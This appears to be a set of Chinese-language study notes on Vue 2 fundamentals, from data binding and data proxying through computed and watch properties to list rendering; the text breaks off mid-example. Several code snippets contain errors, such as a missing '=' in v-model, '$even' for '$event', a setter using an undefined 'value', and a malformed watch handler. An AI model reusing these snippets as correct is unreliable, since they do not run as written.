# 初识Vue (/docs/frontend/vue/base_vue)

## 前置工作 [#前置工作]

（1）给浏览器安装 `Vue Devtools`插件；

（2）标签引入`Vue`包；

（3）阻止 Vue 在启动时生成生产提示`Vue.config.productionTip = false`（**可选**）；

（4）**favicon**需要将页签图标放在项目根路径，重新打开就有了（shift+F5 强制刷新）；

## 初识 Vue [#初识-vue]

（1）想要 Vue 工作，就必须创建一个 Vue 实例，且要传入一个配置对象；

（2）root 容器里的代码依然符合 html 规范，只不过混入了一些特殊的 Vue 语法；

（3）root 容器里的代码被称为 Vue 模版；

（4）Vue 实例与容器是**一一对应**的；

（5）真实开发中只有一个 Vue 实例，并且会配合着组件一起使用；

（6）`{{xxx}}`中 xxx 要写**js 表达式**，且 xxx 可以自动读取到`data`中的所有属性；

（7）一旦`data`中的数据发生变化，那么模版中用到该数据的地方也会自动更新；

<a id='初识Vue-示例代码'>示例代码：</a>

```html 
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>初识Vue</title>
    <!-- 引入Vue -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.5.16/dist/vue.js"></script>
  </head>

  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h3>姓名：{{name}}</h3>
      <h3>地点：{{address}}</h3>
    </div>
    <script>
      Vue.config.productionTip = false; // 阻止vue在启动时生成生产提示(生产版本则无)
      // 创建vue实例
      new Vue({
        el: '#root', // el用于指定当前vue实例为那个容器服务，值通常为css选择器字符串
        data: {
          // data中存储数据，数据供el所指定容器去使用
          name: '李华',
          address: '深圳'
        }
      });
    </script>
  </body>
</html>
```



## 模板语法 [#模板语法]

**Vue 模版语法包括两大类：**

### 插值语法 [#插值语法]

**功能**：用于解析标签体内容

**写法**：`{{xxx}}`，xxx 会作为 js 表达式解析

### 指令语法 [#指令语法]

**功能**：用于解析标签（包括：标签属性、解析标签体内容、绑定事件...）

**举例**：`v-bind:href = 'xxxx'` ，xxxx 会作为 js 表达式被解析

## 数据绑定 [#数据绑定]

**Vue 中有两种数据绑定的方式：**

### 单向绑定：`v-bind` [#单向绑定v-bind]


<Callout type="info" title="特点">

数据只能从 data 流向页面，此外例如`v-bind:href = 'xxx'`，可以简写为`:href`

</Callout>


### 双向绑定：`v-model` [#双向绑定v-model]


<Callout type="info" title="特点">

数据不仅能从 data 流向页面，还能从页面流向 data，双向绑定一般应用在表单类元素上，如`<input>`，`<select>`，`<textarea>`等，`v-model:value`，可以简写为`v-model`

</Callout>


**代码片段**：

```html 
<div id="root">
  <!-- 普通写法 -->
  <!-- 单向数据绑定：<input type="text" v-bind:value="name"><br/> -->
  <!-- 双向数据绑定：<input type="text" v-model:value="name"><br/> -->

  <!-- 简写 -->
  单向数据绑定：<input type="text" :value="name" /><br />
  双向数据绑定：<input type="text" v-model"name"><br />

  <!-- 如下代码是错误的，因为 v-model 只能应用在表单类元素（输入类元素）上 -->
  <!-- <h2 v-model:x="name">你好啊</h2> -->
</div>
```

## el 和 data 的两种写法 [#el-和-data-的两种写法]

### `el`的两种写法 [#el的两种写法]

（1）创建`Vue`实例对象的时候配置`el`属性

（2）先创建`Vue`实例，最后在通过`vm.$mount('#root')`指定`el`的值


<Callout type="info" title="说明">

① Vue 实例中，以$符开头的是提供给程序员使用的

② $mount()不是实例中的方法，是原型对象中的方法



③ $mount()相对来说更灵活一些，如搭配定时器等待一秒后再将 Vue 实例和容器进行关联

```javascript 
const vm = new Vue({
  // el:'#root',
  data: {
    name: '李华'
  }
});

setTimeout(() => {
  vm.$mount('#root');
}, 1000);
```

</Callout>


### `data`的两种写法 [#data的两种写法]

（1）对象式：`data:{}`

（2）函数式：`data(){retuen {}}`


<Callout type="info" title="说明">

① 目前那种写法都可以，后期使用到组件时，必须使用函数式，否则报错

② 由 Vue 管理的函数，一定不要写箭头函数，否则 this 就不在是 Vue 实例了，而是 Window

```javascript 
data(){} 等价于→ data:function(){}
```

</Callout>


## MVVM 模型 数据代理 [#mvvm-模型-数据代理]

### MVVM 模型 [#mvvm-模型]



M：模型**Model**，`data`中的数据

V：视图**View**，模板代码

VM：视图模型**ViewModel**，Vue 实例对象



### 数据代理 [#数据代理]

[`Object.defineProperty(obj, prop, descriptor)`](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Reference/Global_Objects/Object/defineProperty)：

**参数**：

`obj`：要定义属性的对象

`prop`：要定义或修改的属性的名称或 `Symbol`

`descriptor`：要定义或修改的属性描述符

```javascript 
// 假设需要age属性随着number的修改而修改
let number = 18;
let person = {
  name: '张三',
  sex: '男'
};

Object.defineProperty(person, 'age', {
  // value: 18,
  // enumerable:true,  // 控制属性是否可以枚举，默认值是false
  // writable:true,   // 控制属性是否可以被修改，默认值是false
  // configurable:true // 控制属性是否可以被删除，默认值是false

  // 当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
  get() {
    console.log('读取age属性');
    return number;
  },

  // 当有人读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
  set(value) {
    console.log('修改age属性');
    number = value;
  }
});
// console.log(Object.keys(person));
console.log(person);
```



**数据代理**：通过一个对象代理另一个对象中属性的操作（读/写）

```javascript 
let obj = {x: 100};
let obj2 = {y: 200};

Object.defineProperty(obj2, 'x', {
  get() {
    return obj.x;
  },
  set(val) {
   obj.x = value;
  }
}
```


<Callout type="info" title="信息">

1.Vue 中的数据代理通过 vm 对象来代理 data 对象中属性的操作（读/写）

2.Vue 中数据代理的好处：更加方便的操作 data 中的数据

3.基本原理：

​ a .通过 Object.defineProperty()把 data 对象中所有属性添加打 vm 上

​ b.为每个添加到 vm 上的属性，指定一个 getter / setter

​ c.在 getter / setter 内部去操作（读/写）data 中对应的属性

注：Vue 将`data`中的数据拷贝了一份到`_data`属性中，又将`_data`里面的属性提到 Vue 实例中（如：name），通过 Object.defineProperty()实现数据代理，这样通过 getter / setter 操作 name，进而操作`_data`中的 name，而`_data`又对 data 进行数据劫持，实现响应式；



**示例代码参考**：[示例代码-点击跳转](/docs/frontend/vue/base_vue#初识Vue-示例代码)

</Callout>


## 事件处理 [#事件处理]

### 事件的基本使用 [#事件的基本使用]

1.使用`v-on:xxx`或者`@xxx`绑定事件，其中 xxx 是事件名；

2.事件的回调需要配置在 methods 对象中，最终会在 vm 上；

3.methods 中配置的函数，<mark>**不要用箭头函数，否则 this 就不是 vm 了**</mark>；

4.methods 中配置的函数，都是被 Vue 所管理的函数，this 的指向是 vm 或组件实例对象；

5.`@click='demo'`和`@click='demo($event)'`效果一致，但后者可以传参；

```vue 
<div id="root">
  <!-- <button v-on:click="showInfo">点我提示信息</button> -->
  <!-- 简写 -->
  <button @click="showInfo">点我提示信息(不传参)</button>
  <button @click="showInfoParam($even, 'Hi')">点我提示信息(传参)</button>
</div>

<script type="text/javascript">
  new Vue({
    el: '#root',
    data: {},
    methods: {
      showInfo(event) {
        console.log(event);
      },
      showInfoParam(event, param) {
        console.log(event); // 点击事件
        console.log(param); // Hi
      }
    }
  });
</script>
```

### 事件修饰符 [#事件修饰符]

[Vue 官方修饰符相关介绍](https://v2.cn.vuejs.org/v2/guide/events.html#%E4%BA%8B%E4%BB%B6%E4%BF%AE%E9%A5%B0%E7%AC%A6)

| 修饰符    | 说明                                             |
| --------- | ------------------------------------------------ |
| `prevent` | 组织默认事件                                     |
| `stop`    | 组织事件冒泡                                     |
| `once`    | 事件只触发一次                                   |
| `capture` | 使用事件的捕获模式                               |
| `self`    | 只有`event.target`是当前操作的元素时才出发事件   |
| `passive` | 事件的默认行为立即执行，无需等待事件回调执行完毕 |

```vue 
<!-- 阻止单击事件继续传播 -->
<a v-on:click.stop="doThis"></a>

<!-- 提交事件不再重载页面 -->
<form v-on:submit.prevent="onSubmit"></form>

<!-- 修饰符可以串联 -->
<a v-on:click.stop.prevent="doThat"></a>

<!-- 只有修饰符 -->
<form v-on:submit.prevent></form>

<!-- 添加事件监听器时使用事件捕获模式 -->
<!-- 即内部元素触发的事件先在此处理，然后才交由内部元素进行处理 -->
<div v-on:click.capture="doThis">...</div>

<!-- 只当在 event.target 是当前元素自身时触发处理函数 -->
<!-- 即事件不是从内部元素触发的 -->
<div v-on:click.self="doThat">...</div>

<!-- 点击事件将只会触发一次 -->
<a v-on:click.once="doThis"></a>

<!-- 滚动事件的默认行为 (即滚动行为) 将会立即触发 -->
<!-- 而不会等待 `onScroll` 完成  -->
<!-- 这其中包含 `event.preventDefault()` 的情况 -->
<div v-on:scroll.passive="onScroll">...</div>
```


<Callout type="warn" title="注意">

（1）使用修饰符时，顺序很重要；相应的代码会以同样的顺序产生。因此，用 `v-on:click.prevent.self` 会阻止**所有的点击**，而 `v-on:click.self.prevent` 只会阻止对元素自身的点击；

（2）不要把 `.passive` 和 `.prevent` 一起使用，因为 `.prevent` 将会被忽略，同时浏览器可能会向你展示一个警告。请记住，`.passive` 会告诉浏览器你*不*想阻止事件的默认行为；

</Callout>


#### 按键修饰符 [#按键修饰符]

① 常用的按键别名：<kbd>enter</kbd>、<kbd>delete</kbd>、<kbd>esc</kbd>、<kbd>space</kbd>、<kbd>up</kbd>等等；<kbd>tab</kbd>需要配合`keydown`使用；

② Vue 中未提供别名的按键，可以使用按键原始的`key`值去绑定，但要注意要转为`kebab-case`(多单词小写短横线写法)；

③ 系统修饰键：<kbd>ctrl</kbd>、<kbd>alt</kbd>、<kbd>shift</kbd>、<kbd>meta</kbd>，配合`keyup`使用，需要按下修饰键的同时，再按下其他键，随后释放其他键，时间才被触发；配合`keydown`使用，正常触发事件；

④ 可以使用`keyCode`去指定具体的按键（**不推荐**）

⑤ [自定义按键修饰符别名](https://v2.cn.vuejs.org/v2/api/#keyCodes)：`Vue.config.keyCodes.f1 = 112`

```vue 
<input @keyup="showKeyInfo">
<input @keyup.enter="showKeyInfo">

showKeyInfo(e){
 console.log(e.key); // 按键名字
 console.log(e.keyCode); // 按键码
}
```

## 计算属性与侦听属性 [#计算属性与侦听属性]

### 计算属性（computed） [#计算属性computed]

（1）定义：要用的属性不存在，需要<mark>**通过已有属性计算**</mark>得来；Ps：针对模板内复杂的逻辑（表达式），应当使用计算属性便于后期维护；

（2）原理：底层借助了`Object.definepropert`方法提供的`getter`和`setter`；

（3）get 函数什么时候执行？

​ ① 初次读取时会执行一次；

​ ② 当依赖的数据发生改变时会被再次调用；

（4）优势：与 methods 实现相比，内部有缓存机制（复用），效率更高，调试方便；

（5）备注：

​ ① 计算属性最终会出现在 vm 上，直接读取使用即可；

​ ② 如果计算属性要被修改，那必须写 set 函数去响应修改，且 set 中要引起计算时依赖的数据发生改变；

​ ③ 如果计算属性不考虑修改，可以使用计算属性的简写形式；

```vue 
<!DOCTYPE html>
<html lang="zh">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>计算属性</title>
    <!-- 引入Vue -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.5.16/dist/vue.js"></script>
  </head>

  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      姓:<input type="text" v-model="fistName" /><br />
      名:<input type="text" v-model="lastName" /><br />
      全名:<span>{{ fullName }}</span>
    </div>
    <script>
      Vue.config.productionTip = false; // 阻止vue在启动时生成生产提示(生产版本则无)
      // 创建vue实例
      const vm = new Vue({
        el: '#root',
        data: {
          fistName: '李',
          lastName: '华'
        },
        computed: {
          // 完整写法
          /**
                fullName: {
                    // get有什么作用？当有人读取fullName时，get就会被调用，且返回值就作为fullName的值
                    // get什么时候被调用？1.初次读取fullName时；2.所依赖的数据发生变化时；
                    get() {
                        console.log('get被调用了!');
                        return this.fistName + '-' + this.lastName;
                    },
                    // set什么时候被调用？当fullName被修改时
                    set(value) {
                        console.log('get被调用! → %s', value);
                        const arr = value.split('-');
                        this.fistName = arr[0];
                        this.lastName = arr[1];
                    }
                },
                */

          // 简写
          fullName() {
            console.log('get被调用了!');
            return this.fistName + '-' + this.lastName;
          }
        }
      });
    </script>
  </body>
</html>
```

### 侦听属性（watch） [#侦听属性watch]

（1）当被监视的属性变化时，回调函数自动调用，进行相关操作；

（2）监视的属性必须存在，才能被监视，既可以监视属性，也可以监视计算属性；

（3）监视的两种写法：① new Vue 时传入`watch: {}`配置； ② 通过`vm.$watch`监视；

（4）配置项属性`immediate: false`，改为`true`时，则初始化时调用一次`handler(newValue, oldValue) {}`；

（5）如果监视属性除了 handler 没有其他配置项的话，可以进行简写；

```vue 
<!DOCTYPE html>
<html lang="zh">
  <head>
    <meta charset="UTF-8" />
    <meta http-equiv="X-UA-Compatible" content="IE=edge" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>监视属性</title>
    <!-- 引入Vue -->
    <script src="https://cdn.jsdelivr.net/npm/vue@2.5.16/dist/vue.js"></script>
  </head>

  <body>
    <!-- 准备好一个容器 -->
    <div id="root">
      <h2>今天天气很{{ info }}</h2>
      <button @click="changeWeather">切换天气</button>
      <!-- 语句简单写法 -->
      <!-- <button @click="isHot = !isHot">切换天气</button> -->
    </div>
    <script>
      Vue.config.productionTip = false; // 阻止vue在启动时生成生产提示(生产版本则无)
      // 创建vue实例
      const vm = new Vue({
        el: '#root',
        data: {
          isHot: false
        },
        methods: {
          changeWeather() {
            return (this.isHot = !this.isHot);
          }
        },
        computed: {
          info() {
            return this.isHot ? '炎热' : '凉爽';
          }
        },
        /* 方式一 */
        watch: {
          // 监听属性
          // 正常写法
          /**
                isHot: {
                    // immediate: true, // 初始化时让handler调用一下
                    // handler什么时候被调用?当isHot发生改变时
                    handler(newValue, oldValue) {
                        console.log('isHot被修改了!新的值:%s,原来的值:%s', newValue, oldValue);
                    }
                },
                */
          // 简写
          isHot(newValue, oldValue) {
            console.log('isHot被修改了!新的值:%s,原来的值:%s', newValue, oldValue);
          },
          // 监听计算属性
          info: {
            handler(newValue, oldValue) {
              console.log('info!新的值:%s,原来的值:%s', newValue, oldValue);
            }
          }
        }
      });
      /* 方式二 */
      // 正常写法
      /*
        vm.$watch('isHot', {
            // immediate: true, // 初始化时让handler调用一下
            // handler什么时候被调用?当isHot发生改变时
            handler(newValue, oldValue) {
                console.log('isHot被修改了!新的值:%s,原来的值:%s', newValue, oldValue);
            }
        })
        */
      // 简写（不允许写箭头函数）
      vm.$watch('isHot', function (newValue, oldValue) {
        console.log('isHot被修改了!新的值:%s,原来的值:%s', newValue, oldValue);
      });
    </script>
  </body>
</html>
```

### 深度监视 [#深度监视]

（1）Vue 中的 watch 默认不监视对象内部值的改变（一层）；

（2）配置`deep:true`可以监视对象内部值的改变（多层）；


<Callout type="info" title="说明">

① Vue 自身可以监视对象内部值的改变，但 Vue 提供的 watch 默认不可以；

② 使用 watch 时根据数据的具体结构，决定是否采用深度监视；

</Callout>


```vue 
<div id="root">
  <h3>a的值是:{{numbers.a}}</h3>
  <button @click="numbers.a++">点我让a+1</button>
  <h3>b的值是:{{numbers.b}}</h3>
  <button @click="numbers.b++">点我让b+1</button>
  <button @click="numbers={a:666,b:888}">彻底替换掉numbers</button>
  {{numbers.c.d.e}}
</div>
<script>
  new Vue({
    el: '#root',
    data: {
      numbers: {
        a: 1,
        b: 1,
        c: {
          d: {
            e:100
          }
        }
      }
    },
    watch: {
      // 监视多级结构中某个属性的变化
      /*
      'numbers.a': {
        handler() {
          console.log('a被改变了');
        }
      }, */
      // 监视多级结构中的所有属性的变化
      numbers: {
        deep: true,
        handler: {
          console.log('numbers的值改变了');
        }
    }
  })
</script>
```



### watch 对比 computed [#watch-对比-computed]

（1）computed 能完成的功能，watch 都可以完成；

（2）watch 能完成的功能，computed 不一定能完成，例如：watch 可以进行异步操作；


<Callout type="info" title="信息">

① 所被 Vue 管理的函数，做好写成普通函数，这样 this 的指向才是 vm 或组件实例对象；

② 所有不被 Vue 所管理的函数（定时器的回调函数、ajax 的回调函数等），最好写成箭头函数，这样 this 的指向才是 vm 或组件实例对象；

</Callout>


```html 
<div id="demo">{{ fullName }}</div>
```

**使用计算属性**：

```js
const vm = new Vue({
  el: '#demo',
  data: {
    firstName: 'Foo',
    lastName: 'Bar'
  },
  computed: {
    fullName: function () {
      return this.firstName + ' ' + this.lastName;
    }
  }
});
```

**使用侦听属性**：

```js
const vm = new Vue({
  el: '#demo',
  data: {
    firstName: 'Foo',
    lastName: 'Bar',
    fullName: 'Foo Bar'
  },
  watch: {
    firstName: function (val) {
      setTimeout(() => {
        this.fullName = val + ' ' + this.lastName; // 延迟一秒
      }, 1000);
    },
    lastName: function (val) {
      this.fullName = this.firstName + ' ' + val;
    }
  }
});
```

## 绑定样式 [#绑定样式]

（1）class 样式：`class="xxx"`，xxx 可以是字符串、对象、数组；


<Callout type="info" title="说明">

字符串写法适用于：类名不确定，要动态获取  
数组写法适用于：要绑定多个样式，个数不确定，名字也不确定  
对象写法适用于：要绑定多个样式，个数确定，名字也确定，但不确定用不用

</Callout>


（2）style 样式：


<Callout type="info" title="说明">

`:style="[a,b]"`，其中 a、b 是样式

`:style="{fontSize: xxx}"`，其中 xxx 是动态值

</Callout>


```vue 
<style>
    .basic {
        width: 300px;
        height: 50px;
        border: 1px solid black;
    }

    .happy {
        border: 3px solid red;
        background-color: rgba(255, 255, 0, 0.644);
        background: linear-gradient(30deg, yellow, pink, orange, yellow);
    }

    .sad {
        border: 4px dashed rgb(2, 197, 2);
        background-color: skyblue;
    }

    .normal {
        background-color: #bfa;
    }

    .atguigu1 {
        background-color: yellowgreen;
    }

    .atguigu2 {
        font-size: 20px;
        text-shadow: 2px 2px 10px red;
    }

    .atguigu3 {
        border-radius: 20px;
    }
</style>

<div id="root">
    <!-- 绑定class样式--字符串写法，适用于：样式的类名不确定，需要动态指定 -->
    <div class="basic" :class="mood" @click="changeMood">{{name}}</div><br />

    <!-- 绑定class样式--数组写法，适用于：要绑定的样式个数不确定、名字也不确定 -->
    <div class="basic" :class="classArr">{{name}}</div><br />

    <!-- 绑定class样式--对象写法，适用于：要绑定的样式个数确定、名字也确定，但要动态决定用不用 -->
    <div class="basic" :class="classObj">{{name}}</div><br />

    <!-- 绑定style样式--对象写法 -->
    <div class="basic" :style="styleObj">{{name}}</div><br />
    <!-- 绑定style样式--数组写法 -->
    <div class="basic" :style="styleArr">{{name}}</div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false

    const vm = new Vue({
        el: '#root',
        data: {
            name: '尚硅谷',
            mood: 'normal',
            classArr: ['atguigu1', 'atguigu2', 'atguigu3'],
            classObj: {
                atguigu1: false,
                atguigu2: false
            },
            styleObj: {
                fontSize: '40px',
                color: 'red'
            },
            styleObj2: {
                backgroundColor: 'orange'
            },
            styleArr: [
                {
                    fontSize: '40px',
                    color: 'blue'
                },
                {
                    backgroundColor: 'gray'
                }
            ]
        },
        methods: {
            changeMood() {
                const arr = ['happy', 'sad', 'normal']
                const index = Math.floor(Math.random() * 3)
                this.mood = arr[index]
            }
        }
    })
</script>
```



## 条件渲染 [#条件渲染]

`v-if`：

**写法**：

```vue 
（1）v-if='表达式' （2）v-else-if='表达式' （3）v-else='表达式'
```

**适用于**：切换频率较低的场景

**特点**：不展示的 DOM 元素直接被移除

> `v-if`可以和`v-else-if`、`v-else`一起使用，但要求结构不能被“打断”

`v-show`：

**写法**：

```vue 
v-show='表达式'
```

**适用于**：切换频率较高的场景

**特点**：不展示的 DOM 未被移除，仅仅通过样式被隐藏

> 使用`v-if`时，元素可能无法获取到，而使用`v-show`一定可以获取到；
> `template`标签不影响结构，页面`html`中不会有此标签，但只能配合`v-if`，不能配合`v-show`；

```vue 
<div id="root">
  <h2>当前的n值是:{{ n }}</h2>
  <button @click="n++">点我n+1</button>

  <!-- 使用v-show做条件渲染 -->
  <!-- <h2 v-show="false">欢迎来到{{name}}</h2> -->
  <!-- <h2 v-show="1 === 1">欢迎来到{{name}}</h2> -->

  <!-- 使用v-if做条件渲染 -->
  <!-- <h2 v-if="false">欢迎来到{{name}}</h2> -->
  <!-- <h2 v-if="1 === 1">欢迎来到{{name}}</h2> -->

  <!-- v-else和v-else-if -->
  <!-- <div v-if="n === 1">Angular</div> -->
  <!-- <div v-else-if="n === 2">React</div> -->
  <!-- <div v-else-if="n === 3">Vue</div> -->
  <!-- <div v-else>哈哈</div> -->

  <!-- <div v-show="n === 1">Angular</div> -->
  <!-- <div v-show="n === 2">React</div> -->
  <!-- <div v-show="n === 3">Vue</div> -->

  <!-- v-if与template的配合使用 -->
  <template v-if="n === 1">
    <h3>你好</h3>
    <h3>北京</h3>
  </template>

</div>
```

## 列表渲染 数据监视 [#列表渲染-数据监视]

### `v-for` [#v-for]

**适用**：展示列表数据，数据来源可以是数组、对象、字符串（用的少）、指定次数（用的少）

**语法**：`<li v-for="(item, index) of items" :key="index">`，这里 key 可以是 index，更好的是遍历对象的唯一标识

```vue 
<div id="root">
  <!-- 遍历数组 -->
  <h3>人员列表（遍历数组）</h3>
  <ul>
    <li v-for="(p,index) of persons" :key="index">{{ p.name }}-{{ p.age }}</li>
    <li v-for="(p,index) in persons" :key="index">{{ p.name }}-{{ p.age }}</li>
  </ul>

  <!-- 遍历对象 -->
  <h3>汽车信息（遍历对象）</h3>
  <ul>
    <li v-for="(value,k) of car" :key="k">{{ k }}-{{ value }}</li>
  </ul>

  <!-- 遍历字符串 -->
  <h3>测试遍历字符串（用得少）</h3>
  <ul>
    <li v-for="(char,index) of str" :key="index">{{ char }}-{{ index }}</li>
  </ul>

  <!-- 遍历指定次数 -->
  <h3>测试遍历指定次数（用得少）</h3>
  <ul>
    <li v-for="(number,index) of 5" :key="index">{{ index }}-{{ number }}</li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      persons: [
        { id: '001', name: '张三', age: 18 },
        { id: '002', name: '李四', age: 19 },
        { id: '003', name: '王五', age: 20 }
      ],
      car: {
        name: '奥迪A8',
        price: '70万',
        color: '黑色'
      },
      str: 'hello'
    }
  });
</script>
```



### key 的内部原理 [#key-的内部原理]

**案例分析：**

```vue 
<div id="root">
  <h2>人员列表（遍历数组）</h2>
  <button @click.once="add">添加一个老刘</button>
  <!-- index作为key -->
  <ul>
    <li v-for="(p,index) of persons" :key="index">
      {{p.name}}-{{p.age}}
      <input type="text">
    </li>
  </ul>
  <!-- p.id作为key -->
  <ul>
    <li v-for="(p,index) of persons" :key="p.id">
      {{p.name}}-{{p.age}}
      <input type="text">
    </li>
  </ul>
</div>

<script type="text/javascript">
  Vue.config.productionTip = false;
  new Vue({
    el: '#root',
    data: {
      persons: [
        { id: '001', name: '张三', age: 18 },
        { id: '002', name: '李四', age: 19 },
